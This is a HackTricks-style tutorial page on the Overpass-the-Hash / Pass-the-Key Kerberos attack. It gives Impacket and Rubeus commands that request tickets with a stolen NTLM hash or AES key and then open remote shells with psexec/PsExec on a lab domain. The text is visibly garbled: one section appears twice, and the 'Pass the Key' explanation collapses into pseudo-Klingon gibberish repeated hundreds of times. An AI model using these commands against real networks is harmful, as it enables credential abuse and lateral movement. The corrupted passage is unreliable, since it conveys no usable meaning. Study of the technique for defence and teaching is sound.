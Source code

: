 # Over Pass the Hash/Pass the Key

<details>

<summary><strong>htARTE (HackTricks AWS Red Team Expert)</strong> <a href="https://training.hacktricks.xyz/courses/arte"><strong>!HackTricks AWS Red Team Expert</strong></a><strong>!</strong></summary>

* Do you work in a **cybersecurity company**? Do you want to see your **company advertised in HackTricks**? or do you want to have access to the **latest version of the PEASS or download HackTricks in PDF**? Check the [**SUBSCRIPTION PLANS**](https://github.com/sponsors/carlospolop)!
* Discover [**The PEASS Family**](https://opensea.io/collection/the-peass-family), our collection of exclusive [**NFTs**](https://opensea.io/collection/the-peass-family)
* Get the [**official PEASS & HackTricks swag**](https://peass.creator-spring.com)
* **Join the** [**💬**](https://emojipedia.org/speech-balloon/) [**Discord group**](https://discord.gg/hRep4RUj7f) or the [**telegram group**](https://t.me/peass) or **follow** me on **Twitter** 🐦[**@carlospolopm**](https://twitter.com/hacktricks_live)**.**
* **Share your hacking tricks by submitting PRs to the [hacktricks repo](https://github.com/carlospolop/hacktricks) and [hacktricks-cloud repo](https://github.com/carlospolop/hacktricks-cloud)**.

</details>

## Overpass The Hash/Pass The Key (PTK)

The **Overpass The Hash/Pass The Key (PTK)** attack is designed for environments where the traditional NTLM protocol is restricted, and Kerberos authentication takes precedence. This attack leverages the NTLM hash or AES keys of a user to solicit Kerberos tickets, enabling unauthorized access to resources within a network.

To execute this attack, the initial step involves acquiring the NTLM hash or password of the targeted user's account. Upon securing this information, a Ticket Granting Ticket (TGT) for the account can be obtained, allowing the attacker to access services or machines to which the user has permissions.

The process can be initiated with the following commands:
```bash
python getTGT.py jurassic.park/velociraptor -hashes :2a3de7fe356ee524cc9f3d579f2e0aa7
export KRB5CCNAME=/root/impacket-examples/velociraptor.ccache
python psexec.py jurassic.park/velociraptor@labwws02.jurassic.park -k -no-pass
```
### Over-Pass-the-Hash / Pass-the-Key

For scenarios necessitating AES256, the `-aesKey [AES key]` option can be utilized. Moreover, the acquired ticket might be employed with various tools, including smbexec.py or wmiexec.py, broadening the scope of the attack.

Encountered issues such as _PyAsn1Error_ or _KDC cannot find the name_ are typically resolved by updating the Impacket library or using the hostname instead of the IP address, ensuring compatibility with the Kerberos KDC.

An alternative command sequence using Rubeus.exe demonstrates another facet of this technique:

### Over-Pass-the-Hash / Pass-the-Key

For scenarios necessitating AES256, the `-aesKey [AES key]` option can be utilized. Moreover, the acquired ticket might be employed with various tools, including smbexec.py or wmiexec.py, broadening the scope of the attack.

Encountered issues such as _PyAsn1Error_ or _KDC cannot find the name_ are typically resolved by updating the Impacket library or using the hostname instead of the IP address, ensuring compatibility with the Kerberos KDC.

An alternative command sequence using Rubeus.exe demonstrates another facet of this technique:
```bash
.\Rubeus.exe asktgt /domain:jurassic.park /user:velociraptor /rc4:2a3de7fe356ee524cc9f3d579f2e0aa7 /ptt
.\PsExec.exe -accepteula \\labwws02.jurassic.park cmd
```
**Pass the Key** yIqemnIS, 'ej 'oH 'e' vItlhutlhlaHbe'chugh, 'ej 'oH authentication purposes. 'ach, 'oHmey Windows systems prefer AES256, 'ach 'oHmey 'e' vItlhutlhlaHbe'chugh, 'ej 'oHmey 'e' vItlhutlhlaHbe'chugh, 'ej 'oHmey 'e' vItlhutlhlaHbe'chugh, 'ej 'oHmey 'e' vItlhutlhlaHbe'chugh, 'ej 'oHmey 'e' vItlhutlhlaHbe'chugh, 'ej 'oHmey 'e' vItlhutlhlaHbe'chugh, 'ej 'oHmey 'e' vItlhutlhlaHbe'chugh, 'ej 'oHmey 'e' vItlhutlhlaHbe'chugh, 'ej 'oHmey 'e' vItlhutlhlaHbe'chugh, 'ej 'oHmey 'e' vItlhutlhlaHbe'chugh, 'ej 'oHmey 'e' vItlhutlhlaHbe'chugh, 'ej 'oHmey 'e' vItlhutlhlaHbe'chugh, 'ej 'oHmey 'e' vItlhutlhlaHbe'chugh, 'ej 'oHmey 'e' vItlhutlhlaHbe'chugh, 'ej 'oHmey 'e' vItlhutlhlaHbe'chugh, 'ej 'oHmey 'e' vItlhutlhlaHbe'chugh, 'ej 'oHmey 'e' vItlhutlhlaHbe'chugh, 'ej 'oHmey 'e' vItlhutlhlaHbe'chugh, 'ej 'oHmey 'e' vItlhutlhlaHbe'chugh, 'ej 'oHmey 'e' vItlhutlhlaHbe'chugh, 'ej 'oHmey 'e' vItlhutlhlaHbe'chugh, 'ej 'oHmey 'e' vItlhutlhlaHbe'chugh, 'ej 'oHmey 'e' vItlhutlhlaHbe'chugh, 'ej 'oHmey 'e' vItlhutlhlaHbe'chugh, 'ej 'oHmey 'e' vItlhutlhlaHbe'chugh, 'ej 'oHmey 'e' vItlhutlhlaHbe'chugh, 'ej 'oHmey 'e' vItlhutlhlaHbe'chugh, 'ej 'oHmey 'e' vItlhutlhlaHbe'chugh, 'ej 'oHmey 'e' vItlhutlhlaHbe'chugh, 'ej 'oHmey 'e' vItlhutlhlaHbe'chugh, 'ej 'oHmey 'e' vItlhutlhlaHbe'chugh, 'ej 'oHmey 'e' vItlhutlhlaHbe'chugh, 'ej 'oHmey 'e' vItlhutlhlaHbe'chugh, 'ej 'oHmey 'e' vItlhutlhlaHbe'chugh, 'ej 'oHmey 'e' vItlhutlhlaHbe'chugh, 'ej 'oHmey 'e' vItlhutlhlaHbe'chugh, 'ej 'oHmey 'e' vItlhutlhlaHbe'chugh, 'ej 'oHmey 'e' vItlhutlhlaHbe'chugh, 'ej 'oHmey 'e' vItlhutlhlaHbe'chugh, 'ej 'oHmey 'e' vItlhutlhlaHbe'chugh, 'ej 'oHmey 'e' vItlhutlhlaHbe'chugh, 'ej 'oHmey 'e' vItlhutlhlaHbe'chugh, 'ej 'oHmey 'e' vItlhutlhlaHbe'chugh, 'ej 'oHmey 'e' vItlhutlhlaHbe'chugh, 'ej 'oHmey 'e' vItlhutlhlaHbe'chugh, 'ej 'oHmey 'e' vItlhutlhlaHbe'chugh, 'ej 'oHmey 'e' vItlhutlhlaHbe'chugh, 'ej 'oHmey 'e' vItlhutlhlaHbe'chugh, 'ej 'oHmey 'e' vItlhutlhlaHbe'chugh, 'ej 'oHmey 'e' vItlhutlhlaHbe'chugh, 'ej 'oHmey 'e' vItlhutlhlaHbe'chugh, 'ej 'oHmey 'e' vItlhutlhlaHbe'chugh, 'ej 'oHmey 'e' vItlhutlhlaHbe'chugh, 'ej 'oHmey 'e' vItlhutlhlaHbe'chugh, 'ej 'oHmey 'e' vItlhutlhlaHbe'chugh, 'ej 'oHmey 'e' vItlhutlhlaHbe'chugh, 'ej 'oHmey 'e' vItlhutlhlaHbe'chugh, 'ej 'oHmey 'e' vItlhutlhlaHbe'chugh, 'ej 'oHmey 'e' vItlhutlhlaHbe'chugh, 'ej 'oHmey 'e' vItlhutlhlaHbe'chugh, 'ej 'oHmey 'e' vItlhutlhlaHbe'chugh, 'ej 'oHmey 'e' vItlhutlhlaHbe'chugh, 'ej 'oHmey 'e' vItlhutlhlaHbe'chugh, 'ej 'oHmey 'e' vItlhutlhlaHbe'chugh, 'ej 'oHmey 'e' vItlhutlhlaHbe'chugh, 'ej 'oHmey 'e' vItlhutlhlaHbe'chugh, 'ej 'oHmey 'e' vItlhutlhlaHbe'chugh, 'ej 'oHmey 'e' vItlhutlhlaHbe'chugh, 'ej 'oHmey 'e' vItlhutlhlaHbe'chugh, 'ej 'oHmey 'e' vItlhutlhlaHbe'chugh, 'ej 'oHmey 'e' vItlhutlhlaHbe'chugh, 'ej 'oHmey 'e' vItlhutlhlaHbe'chugh, 'ej 'oHmey 'e' vItlhutlhlaHbe'chugh, 'ej 'oHmey 'e' vItlhutlhlaHbe'chugh, 'ej 'oHmey 'e' vItlhutlhlaHbe'chugh, 'ej 'oHmey 'e' vItlhutlhlaHbe'chugh, 'ej 'oHmey 'e' vItlhutlhlaHbe'chugh, 'ej 'oHmey 'e' vItlhutlhlaHbe'chugh, 'ej 'oHmey 'e' vItlhutlhlaHbe'chugh, 'ej 'oHmey 'e' vItlhutlhlaHbe'chugh, 'ej 'oHmey 'e' vItlhutlhlaHbe'chugh, 'ej 'oHmey 'e' vItlhutlhlaHbe'chugh, 'ej 'oHmey 'e' vItlhutlhlaHbe'chugh, 'ej 'oHmey 'e' vItlhutlhlaHbe'chugh, 'ej 'oHmey 'e' vItlhutlhlaHbe'chugh, 'ej 'oHmey 'e' vItlhutlhlaHbe'chugh, 'ej 'oHmey 'e' vItlhutlhlaHbe'chugh, 'ej 'oHmey 'e' vItlhutlhlaHbe'chugh, 'ej 'oHmey 'e' vItlhutlhlaHbe'chugh, 'ej 'oHmey 'e' vItlhutlhlaHbe'chugh, 'ej 'oHmey 'e' vItlhutlhlaHbe'chugh, 'ej 'oHmey 'e' vItlhutlhlaHbe'chugh, 'ej 'oHmey 'e' vItlhutlhlaHbe'chugh, 'ej 'oHmey 'e' vItlhutlhlaHbe'chugh, 'ej 'oHmey 'e' vItlhutlhlaHbe'chugh, 'ej 'oHmey 'e' vItlhutlhlaHbe'chugh, 'ej 'oHmey 'e' vItlhutlhlaHbe'chugh, 'ej 'oHmey 'e' vItlhutlhlaHbe'chugh, 'ej 'oHmey 'e' vItlhutlhlaHbe'chugh, 'ej 'oHmey 'e' vItlhutlhlaHbe'chugh, 'ej 'oHmey 'e' vItlhutlhlaHbe'chugh, 'ej 'oHmey 'e' vItlhutlhlaHbe'chugh, 'ej 'oHmey 'e' vItlhutlhlaHbe'chugh, 'ej 'oHmey 'e' vItlhutlhlaHbe'chugh, 'ej 'oHmey 'e' vItlhutlhlaHbe'chugh, 'ej 'oHmey 'e' vItlhutlhlaHbe'chugh, 'ej 'oHmey 'e' vItlhutlhlaHbe'chugh, 'ej 'oHmey 'e' vItlhutlhlaHbe'chugh, 'ej 'oHmey 'e' vItlhutlhlaHbe'chugh, 'ej 'oHmey 'e' vItlhutlhlaHbe'chugh, 'ej 'oHmey 'e' vItlhutlhlaHbe'chugh, 'ej 'oHmey 'e' vItlhutlhlaHbe'chugh, 'ej 'oHmey 'e' vItlhutlhlaHbe'chugh, 'ej 'oHmey 'e' vItlhutlhlaHbe'chugh, 'ej 'oHmey 'e' vItlhutlhlaHbe'chugh, 'ej 'oHmey 'e' vItlhutlhlaHbe'chugh, 'ej 'oHmey 'e' vItlhutlhlaHbe'chugh, 'ej 'oHmey 'e' vItlhutlhlaHbe'chugh, 'ej 'oHmey 'e' vItlhutlhlaHbe'chugh, 'ej 'oHmey 'e' vItlhutlhlaHbe'chugh, 'ej 'oHmey 'e' vItlhutlhlaHbe'chugh, 'ej 'oHmey 'e' vItlhutlhlaHbe'chugh, 'ej 'oHmey 'e' vItlhutlhlaHbe'chugh, 'ej 'oHmey 'e' vItlhutlhlaHbe'chugh, 'ej 'oHmey 'e' vItlhutlhlaHbe'chugh, 'ej 'oHmey 'e' vItlhutlhlaHbe'chugh, 'ej 'oHmey 'e' vItlhutlhlaHbe'chugh, 'ej 'oHmey 'e' vItlhutlhlaHbe'chugh, 'ej 'oHmey 'e' vItlhutlhlaHbe'chugh, 'ej 'oHmey 'e' vItlhutlhlaHbe'chugh, 'ej 'oHmey 'e' vItlhutlhlaHbe'chugh, 'ej 'oHmey 'e' vItlhutlhlaHbe'chugh, 'ej 'oHmey 'e' vItlhutlhlaHbe'chugh, 'ej 'oHmey 'e' vItlhutlhlaHbe'chugh, 'ej 'oHmey 'e' vItlhutlhlaHbe'chugh, 'ej 'oHmey 'e' vItlhutlhlaHbe'chugh, 'ej 'oHmey 'e' vItlhutlhlaHbe'chugh, 'ej 'oHmey 'e' vItlhutlhlaHbe'chugh, 'ej 'oHmey 'e' vItlhutlhlaHbe'chugh, 'ej 'oHmey 'e' vItlhutlhlaHbe'chugh, 'ej 'oHmey 'e' vItlhutlhlaHbe'chugh, 'ej 'oHmey 'e' vItlhutlhlaHbe'chugh, 'ej 'oHmey 'e' vItlhutlhlaHbe'chugh, 'ej 'oHmey 'e' vItlhutlhlaHbe'chugh, 'ej 'oHmey 'e' vItlhutlhlaHbe'chugh, 'ej 'oHmey 'e' vItlhutlhlaHbe'chugh, 'ej 'oHmey 'e' vItlhutlhlaHbe'chugh, 'ej 'oHmey 'e' vItlhutlhlaHbe'chugh, 'ej 'oHmey 'e' vItlhutlhlaHbe'chugh, 'ej 'oHmey 'e' vItlhutlhlaHbe'chugh, 'ej 'oHmey 'e' vItlhutlhlaHbe'chugh, 'ej 'oHmey 'e' vItlhutlhlaHbe'chugh, 'ej 'oHmey 'e' vItlhutlhlaHbe'chugh, 'ej 'oHmey 'e' vItlhutlhlaHbe'chugh, 'ej 'oHmey 'e' vItlhutlhlaHbe'chugh, 'ej 'oHmey 'e' vItlhutlhlaHbe'chugh, 'ej 'oHmey 'e' vItlhutlhlaHbe'chugh, 'ej 'oHmey 'e' vItlhutlhlaHbe'chugh, 'ej 'oHmey 'e' vItlhutlhlaHbe'chugh, 'ej 'oHmey 'e' vItlhutlhlaHbe'chugh, 'ej 'oHmey 'e' vItlhutlhlaHbe'chugh, 'ej 'oHmey 'e' vItlhutlhlaHbe'chugh, 'ej 'oHmey 'e' vItlhutlhlaHbe'chugh, 'ej 'oHmey 'e' vItlhutlhlaHbe'chugh, 'ej 'oHmey 'e' vItlhutlhlaHbe'chugh, 'ej 'oHmey 'e' vItlhutlhlaHbe'chugh, 'ej 'oHmey 'e' vItlhutlhlaHbe'chugh, 'ej 'oHmey 'e' vItlhutlhlaHbe'chugh, 'ej 'oHmey 'e' vItlhutlhlaHbe'chugh, 'ej 'oHmey 'e' vItlhutlhlaHbe'chugh, 'ej 'oHmey 'e' vItlhutlhlaHbe'chugh, 'ej 'oHmey 'e' vItlhutlhlaHbe'chugh, 'ej '
```bash
.\Rubeus.exe asktgt /user:<USERNAME> /domain:<DOMAIN> /aes256:HASH /nowrap /opsec
```
## References

* [https://www.tarlogic.com/es/blog/como-atacar-kerberos/](https://www.tarlogic.com/es/blog/como-atacar-kerberos/)

<details>

<summary><strong>Learn AWS hacking from zero to hero with</strong> <a href="https://training.hacktricks.xyz/courses/arte"><strong>htARTE (HackTricks AWS Red Team Expert)</strong></a><strong>!</strong></summary>

* Do you work in a **cybersecurity company**? Do you want to see your **company advertised in HackTricks**? or do you want to have access to the **latest version of the PEASS or download HackTricks in PDF**? Check the [**SUBSCRIPTION PLANS**](https://github.com/sponsors/carlospolop)!
* Discover [**The PEASS Family**](https://opensea.io/collection/the-peass-family), our collection of exclusive [**NFTs**](https://opensea.io/collection/the-peass-family)
* Get the [**official PEASS & HackTricks swag**](https://peass.creator-spring.com)
* **Join the** [**💬**](https://emojipedia.org/speech-balloon/) [**Discord group**](https://discord.gg/hRep4RUj7f) or the [**telegram group**](https://t.me/peass) or **follow** me on **Twitter** 🐦[**@carlospolopm**](https://twitter.com/hacktricks_live)**.**
* **Share your hacking tricks by submitting PRs to the [hacktricks repo](https://github.com/carlospolop/hacktricks) and [hacktricks-cloud repo](https://github.com/carlospolop/hacktricks-cloud)**.

</details>
